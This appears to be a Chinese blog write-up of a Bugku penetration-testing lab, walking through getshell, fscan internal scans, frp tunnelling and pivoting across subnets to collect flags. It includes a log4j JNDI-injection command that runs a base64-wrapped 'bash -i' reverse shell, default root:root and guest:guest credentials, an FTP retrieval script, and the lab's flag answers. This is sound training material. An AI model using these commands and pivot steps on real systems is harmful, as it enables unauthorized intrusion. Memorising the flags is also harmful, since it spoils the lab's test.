 ```yaml
---
title: bugku 渗透测试2渗透记录
date: 2024-07-28 13:00 +0800
categories: [SRC,渗透]
tags: [PAR,bugku]
media_subpath: /assets/images/
---
```








![未命名文件](渗透测试2.assets/未命名文件.png)







![image-20240728091958972](渗透测试2.assets/image-20240728091958972.png)

![image-20240728092005696](渗透测试2.assets/image-20240728092005696.png)

命令执行（这里不知道为什么burp没成功）

https://blog.csdn.net/acdcccc/article/details/132700902

![image-20240728092253236](渗透测试2.assets/image-20240728092253236.png)

getshell使用教程公开exploit

## flag1

![image-20240728092704334](渗透测试2.assets/image-20240728092704334.png)

上传fscan

```
192.168.0.2:3306 open
192.168.0.3:80 open
192.168.0.2:80 open
192.168.0.1:80 open
192.168.0.1:22 open
[*] WebTitle: http://192.168.0.1        code:200 len:3392   title:Harry's Blog
[*] WebTitle: http://192.168.0.2        code:200 len:3392   title:Harry's Blog
[*] WebTitle: http://192.168.0.3        code:200 len:4789   title:Bugku后台管理系统
[+] mysql:192.168.0.2:3306:root 
```



## flag2

0.1 0.2 配置一个是一样的我们localhost连接

账号密码 root:root

web配置文件也存在，只不过是cms账号

有数据库

![image-20240728093731807](渗透测试2.assets/image-20240728093731807.png)





架上frp

![image-20240728093544837](渗透测试2.assets/image-20240728093544837.png)

![image-20240728094242028](渗透测试2.assets/image-20240728094242028.png)

连接成功

![image-20240728094252294](渗透测试2.assets/image-20240728094252294.png)





0.3

![image-20240728095615124](渗透测试2.assets/image-20240728095615124.png)

![image-20240728095704318](渗透测试2.assets/image-20240728095704318.png)

log4j

登录会记录日志

![image-20240728095025883](渗透测试2.assets/image-20240728095025883.png)

靶机出网



## flag3

这里是真的巧合了

flag{5fbf32731e82fefa606360f2d08d2ced}

![image-20240728095511611](渗透测试2.assets/image-20240728095511611.png)





JNDIExploit-1.2-SNAPSHOT.jar

这个工具不行

用下面的命令

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,xxxxxxx}|{base64,-d}|{bash,-i}" -A 0.0.0.0
```



## flag4

![image-20240728101406332](渗透测试2.assets/image-20240728101406332.png)



这里还存在一个一网段

![image-20240728101431783](渗透测试2.assets/image-20240728101431783.png)



## flag5

![image-20240728101746549](渗透测试2.assets/image-20240728101746549.png)





```
192.168.1.2:80 open
192.168.1.1:22 open
192.168.1.3:80 open
192.168.1.1:80 open
[*] WebTitle http://192.168.1.1        code:200 len:3392   title:Harry's Blog
[*] WebTitle http://192.168.1.2        code:200 len:4789   title:Bugku后台管理系统
[*] WebTitle http://192.168.1.3        code:200 len:524    title:乙公司Git仓库
```

继续frp

原先的一层不需要了，重新配置

![image-20240728111612802](渗透测试2.assets/image-20240728111612802.png)



## flag6

提交克隆

https://github.com/lmzds/test2.git

![image-20240728112729981](渗透测试2.assets/image-20240728112729981.png)

测试需要改名仓库名

每次都要 clone一下



![image-20240728114302529](渗透测试2.assets/image-20240728114302529.png)

## flag7

![image-20240728114407637](渗透测试2.assets/image-20240728114407637.png)



![image-20240728114427975](渗透测试2.assets/image-20240728114427975-1722138268743-1.png)



```
10.10.0.1:22 open
10.10.0.3:21 open
10.10.0.2:80 open
10.10.0.1:80 open
[*] WebTitle: http://10.10.0.2          code:200 len:524    title:乙公司Git仓库
[*] WebTitle: http://10.10.0.1          code:200 len:3368   title:Harry's Blog
```



![image-20240728123307904](渗透测试2.assets/image-20240728123307904.png)

提示 / 

![image-20240728123451535](渗透测试2.assets/image-20240728123451535.png)

```python
from ftplib import FTP, error_perm


ftp = FTP('10.10.0.3')
ftp.login('guest', 'guest')

print(ftp.retrlines('LIST'))

with open('flag1.txt', 'wb') as file:
    ftp.retrbinary('RETR flag', file.write)
    
ftp.cwd('/')
print(ftp.retrlines('LIST'))
with open('flag2.txt', 'wb') as file:
    ftp.retrbinary('RETR flag', file.write)
```

## flag8

![image-20240728124023398](渗透测试2.assets/image-20240728124023398.png)

flag{e7fe2fb22b525d0b5c67df613fabc95d}